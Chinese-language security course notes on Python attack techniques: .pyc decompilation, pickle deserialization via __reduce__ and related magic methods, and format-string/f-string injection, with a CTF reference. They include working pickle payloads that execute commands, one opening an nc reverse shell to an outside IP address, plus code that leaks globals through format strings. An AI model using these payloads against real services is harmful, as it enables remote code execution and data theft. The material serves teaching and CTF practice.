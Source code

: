 
---
➢ Python-PYC-反编译文件出源码

➢ Python-反序列化-调用链&魔术方法

➢ Python-格式化字符串-类魔术方法引用

# PYC-反编译文件出源码

pyc文件是py文件编译后生成的字节码文件(byte code)，pyc文件经过python解释器最终会生成机器码运行。因此pyc文件是可以跨平台部署的，类似Java的.class文件，一般py文件改变后，都会重新生成pyc文件。

```
真题：http://pan.baidu.com/s/1jGpB8DS

安装：pip install uncompyle6

使用：uncompyle6 -o test.py test.pyc

下载：https://github.com/rocky/python-uncompyle6
```

# 反序列化-调用链-魔术方法

## 各类语言序列化和反序列化函数：

Java： 
```
Serializable Externalizable接口、fastjson、jackson、gson、ObjectInputStream.read、ObjectObjectInputStream.readUnshared、XMLDecoder.read、ObjectYaml.loadXStream.fromXML、ObjectMapper.readValue、JSON.parseObject等
```

PHP：
```
 serialize()、 unserialize()
```

## Python：
```
pickle marshal json PyYAML shelve PIL unzip
```

序列化：把类对象转化为字节流或文件

反序列化：将字节流或文件转化为类对象

```
pickle.dump(obj, file) : 将对象序列化后保存到文件

pickle.load(file) : 将文件序列化内容反序列化为对象
```

```
pickle.dumps(obj) : 将对象序列化成字符串格式的字节流

pickle.loads(bytes_obj) : 将字符串字节流反序列化为对象
```

PyYAML yaml.load()

JSON json.loads(s)

marshal

### 魔术方法：

```
reduce() 反序列化时调用

reduce_ex() 反序列化时调用

setstate() 反序列化时调用（类似于php的isset被设置）

getstate() 序列化时调用
```

#### 1、序列化和反序列化演示-test.py

```python
import requests

import pickle

import base64

import os

  

# 反序列化被调用

class exp1(object):

    def __reduce__(self):

        return (eval, ("__import__('os').system('calc')",))

class exp2(object):

    def __reduce_ex__(self, protocol):

        return (eval, ("__import__('os').system('calc')",))

# 序列化被调用

class test(object):

    def __getstate__(self):

        cmd = "calc"  # 命令

        os.system(cmd)

  

# 创建序列化对象

e1 = exp1()

e2=exp2()

e3=test()

# 使用 pickle 序列化对象

s1 = pickle.dumps(e1)

s2=pickle.dumps(e2)

s3=pickle.dumps(e3)

# Base64 编码序列化后的字节串

u1 = base64.b64encode(s1).decode()

u2=base64.b64encode(s2).decode()

print(u1)

print(u2)
```

#### 2、序列化和反序列化形成-test.py

#### 3、序列化和反序列化利用-server.py pop.py
```python
import requests

import pickle

import base64

import os

  
class exp(object):

    def __reduce__(self):

        return (eval, ("__import__('os').system('c:/nc 47.94.236.117 5555 -e cmd')",))

  

# 创建序列化对象

e = exp()

# 使用 pickle 序列化对象

s = pickle.dumps(e)

# Base64 编码序列化后的字节串

user = base64.b64encode(s).decode()

print(user)
```

#### 4、序列化和反序列化测试
赛题-[watevrCTF-2019]Pickle Store

黑盒：Python反序列化特征：base64编码 前面gA固定（序列化数据）

测试：直接提交构造的payload测试

# 格式化字符串-类魔术方法引用

https://xz.aliyun.com/t/3569

第一种：%操作符

第二种：string.Template

第三种：调用format方法 （可控格式化字符串）
```python
config={'flag':'woaichixigua'}

class User(object):

    def __init__(self,name):

        self.name=name

  

user = User('joe')

print('Hello {name}'.format(name='xiaodi'))

print('Hello {name}'.format(name=user.__class__.__init__.__globals__))

print('Hello {name}'.format(name=user.__class__.__init__.__globals__['config']))


#name后面的值可控，我们user.__class__.__init__.__globals__['config']传入进入获取当前脚本的核心flag
```

第四种: f-Strings（可控格式化字符串）

```python

a , b = 5 , 10

f'Five plus ten is {a + b} and not {2 * (a + b)}.'

'Five plus ten is 15 and not 30.'


print(f'{__import__("os").system("ipconfig")}')
```
